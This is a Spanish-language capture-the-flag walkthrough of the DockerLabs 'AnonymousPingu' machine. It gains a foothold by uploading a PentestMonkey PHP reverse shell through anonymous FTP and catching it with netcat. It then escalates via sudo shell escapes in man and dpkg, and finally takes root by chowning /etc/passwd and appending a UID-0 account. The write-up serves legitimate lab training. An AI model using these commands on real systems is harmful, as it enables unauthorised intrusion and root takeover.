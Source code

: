 # Máquina AnonymousPingu

Dificultad -> Easy

Enlace a la máquina -> [Dockerlabs](https://dockerlabs.es/)

## Reconocimiento

Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver que puertos tiene abiertos.

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack
80/tcp open  http    syn-ack
```

Lanzamos un conjunto de scripts predeterminado con **nmap** para que nos reporte más información relacionada a los puertos descubiertos en el anterior escaneo.

```shell
nmap -sCV -p21,80 172.17.0.2 -oN targeted
________________________________________________
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    1 0        0             118 Jan 01  1970 css
| drwxr-xr-x    1 0        0               0 Apr 28 18:28 heustonn-html
| drwxr-xr-x    1 0        0             574 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28 18:32 index.html
| drwxr-xr-x    1 0        0              62 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33              0 Apr 28 21:08 upload [NSE: writeable]
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

Vemos mucha información por parte del servicio ftp, donde está habilitado el user **anonymous**.
Observamos que toda la info que nos reporta en el servicio **ftp** son los archivos fuente de la **web** que corre por el puerto 80.
Además, comprobamos que el directorio **/upload** dentro de la web, tiene capacidad de **directory list**, de forma que será fácil la intrusión.
Podremos subir una **reverse shell** y acceder a ella desde la web para ganar acceso.
La subimos al directorio **/upload**, que es el único lugar donde tenemos permisos de escritura.

Subiré la reverse shell típica de **PentestMonkey** -> [Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

```shell
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
mv php-reverse-shell.php shell.php
```

(Acuérdate de cambiar la IP a tu IP correspondiente y el puerto que quieras)

![Pasted image 20240429005132](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/45802db3-6d7b-4747-9dcb-9d0401a43b09)

```shell
ftp 172.17.0.2
-> anonymous
cd upload/
put shell.php
```

Nos ponemos en escucha con **netcat**:

```shell
sudo nc -nlvp 443
```

Accedemos a la **reverse shell** que ya debería estar alojada en la web.

```
http://172.17.0.2/upload/shell.php
```

Hemos ganado acceso a la máquina !
Aplicamos como siempre el tratamiento de la **tty**

------------
## Escalada de privilegios

Si hacemos **sudo -l** vemos que podemos ejecutar **man** como el usuario **pingu**. Podemos abusar de este para migrar a ese user.

```shell
sudo -l
--------------------------------
User www-data may run the following commands on 13d79de146ba:
    (pingu) NOPASSWD: /usr/bin/man
```

```shell
sudo -u pingu man man
!/bin/bash
whoami
------------------------
pingu
```

Hemos salido del contexto de **man** y migramos al user **pingu**.

Hacemos otra vez **sudo -l**:

```shell
sudo -l
--------------------------------
User pingu may run the following commands on 4af23574d013:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
```

Podemos ejecutar **nmap** y **dpkg** como el user **gladys**.
Podemos repetir un proceso muy similar al de **man** con **dpkg**:

```shell
sudo -u gladys dpkg -l
!/bin/bash
```

Migramos al user **gladys**.
Hacemos otra vez **sudo -l**:

```shell
sudo -l
--------------------------------
User gladys may run the following commands on 4af23574d013:
    (root) NOPASSWD: /usr/bin/chown
```

Podemos ejecutar **chown** como **root**
Cambiamos el dueño del **/etc/passwd**:

```shell
LFILE=/etc/passwd 
sudo chown $(id -un):$(id -gn) $LFILE
ls -l /etc/passwd
--------------------------------
-rw-r--r-- 1 gladys gladys 1292 Apr 28 21:08 /etc/passwd
```

Ahora le pertenece a **gladys**.
Probamos a quitar la "**x**" que corresponde a la contraseña del usuario **root** y si la quitamos es posible que nos deje acceder sin contraseña.
Como la máquina no tiene ningún editor de texto instalado, lo que haremos será crear un nuevo usuarios con los privilegios de **root** y añadirlo al **/etc/passwd**:

```shell
LFILE=/etc/passwd
sudo chown $(id -un):$(id -gn) $LFILE
openssl passwd hola123
echo 'newroot:$1$EBhVbkUV$zW3uLFiknxfdzUV5OjQZ40:0:0::/home/newroot:/bin/bash' >> /etc/passwd
su newroot
whoami
----------------
root
```

Hemos alcanzado el nivel de privilegios máximo !
